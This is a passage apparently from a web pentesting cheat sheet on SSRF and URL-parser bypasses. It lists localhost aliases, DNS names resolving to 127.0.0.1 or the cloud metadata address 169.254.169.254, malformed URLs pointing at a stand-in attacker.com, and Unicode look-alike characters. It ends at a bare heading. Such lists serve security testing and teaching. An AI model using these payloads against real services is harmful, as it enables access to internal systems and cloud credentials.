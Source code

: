 ```bash
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```
```
![[<../../images/image (776).png>|]]

The **Burp extension** [[https://github.com/e1abrador/Burp-Encode-IP|**Burp-Encode-IP**]] implements IP formatting bypasses.

### Domain Parser

```bash
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
```
```
```
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾
⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗
⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰
⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ
Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ
ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
```
### Domain Confusion
